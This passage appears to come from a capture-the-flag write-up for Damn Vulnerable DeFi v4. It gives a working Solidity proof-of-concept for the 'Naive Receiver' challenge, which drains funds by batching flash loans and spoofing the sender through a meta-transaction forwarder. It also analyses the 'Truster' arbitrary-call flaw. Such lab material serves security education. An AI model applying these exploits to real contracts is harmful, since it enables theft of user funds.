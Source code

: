 **POC**

See [test/naive-receiver/NaiveReceiver.t.sol](https://github.com/CanonicalJP/damn-vulnerable-defi-v4/blob/master/test/naive-receiver/NaiveReceiver.t.sol)

```solidity
 function test_naiveReceiver() public checkSolvedByPlayer {
        bytes[] memory callDataArray = new bytes[](11);
        for (uint256 i = 0; i < 10; i++) {
            callDataArray[i] = abi.encodeCall(NaiveReceiverPool.flashLoan, (receiver, address(weth), 0, "0x"));
        }
        callDataArray[10] = abi.encodePacked(
            abi.encodeCall(NaiveReceiverPool.withdraw, (WETH_IN_POOL + WETH_IN_RECEIVER, payable(recovery))),
            bytes32(uint256(uint160(deployer)))
        );

        bytes memory callData;
        callData = abi.encodeCall(pool.multicall, callDataArray);

        BasicForwarder.Request memory request =
            BasicForwarder.Request(player, address(pool), 0, gasleft(), forwarder.nonces(player), callData, 1 days);

        bytes32 requestHash =
            keccak256(abi.encodePacked("\x19\x01", forwarder.domainSeparator(), forwarder.getDataHash(request)));

        (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPk, requestHash);
        bytes memory signature = abi.encodePacked(r, s, v);

        forwarder.execute(request, signature);
    }
```

Run `forge test --mp test/naive-receiver/NaiveReceiver.t.sol --isolate` to validate test

---

## 3.TRUSTER

**Objective**

_from `_isSolved()` in test_

1. _Player must have executed a single transaction_
2. _All rescued funds sent to recovery account_

**Attack Analysis**

- The vulnerability resides in `flashLoan()` in `TrusterLenderPool`, which includes a call to an arbitrary address with arbitrary data, `target.functionCall(data)`. We can use it to call the token and `approve()` the contract we want to later call the token and do a `transferFrom`.
- Lastly, we need to execute the attack in one ATOMIC transaction. To complete this objective, the best approach is to execute the code in the `constructor()` of a contract.
